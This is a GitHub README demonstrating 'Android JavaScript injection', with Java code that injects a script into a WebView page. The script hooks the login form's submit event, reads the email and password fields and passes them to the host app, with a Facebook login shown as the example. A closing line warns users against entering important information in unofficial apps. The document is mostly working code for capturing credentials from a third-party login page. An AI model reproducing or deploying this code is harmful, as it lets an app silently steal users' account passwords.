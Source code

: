 Android-Javascript-Injection
============================

This demo show you how to inject javascript to webview,
and get input value before submit.


<br/>

Step 1 : create a class which called by javascript
-----------
```Java
class MyJavaScriptInterface
{
    @JavascriptInterface
    public void processHTML(String html)
    {
        //called by javascript
    }
}
```



Step 2 : register interface for javascript
-----------
```Java
webview1.getSettings().setJavaScriptEnabled(true);
webview1.addJavascriptInterface(new MyJavaScriptInterface(), "MYOBJECT");
```



Step 3 : inject javascript to page
-----------
```Java
webview1.setWebViewClient(new WebViewClient() {
    @Override
    public void onPageFinished(WebView view, String url) {
        super.onPageFinished(view, url);

        StringBuilder sb = new StringBuilder();
        sb.append("document.getElementsByTagName('form')[0].onsubmit = function () {");
        sb.append("var objPWD, objAccount;var str = '';");
        sb.append("var inputs = document.getElementsByTagName('input');");
        sb.append("for (var i = 0; i < inputs.length; i++) {");
        sb.append("if (inputs[i].name.toLowerCase() === 'pass') {objPWD = inputs[i];}");
        sb.append("else if (inputs[i].name.toLowerCase() === 'email') {objAccount = inputs[i];}");
        sb.append("}");
        sb.append("if (objAccount != null) {str += objAccount.value;}");
        sb.append("if (objPWD != null) { str += ' , ' + objPWD.value;}");
        sb.append("window.MYOBJECT.processHTML(str);");
        sb.append("return true;");
        sb.append("};");
                
        view.loadUrl("javascript:" + sb.toString());
    }

});
```

Example : facebook login injection
-----------
![](pic1.png)
<br/>
![](pic2.png)

<br/>
Note : it's dangerous to give important information in webview with unoffical app.
-----------
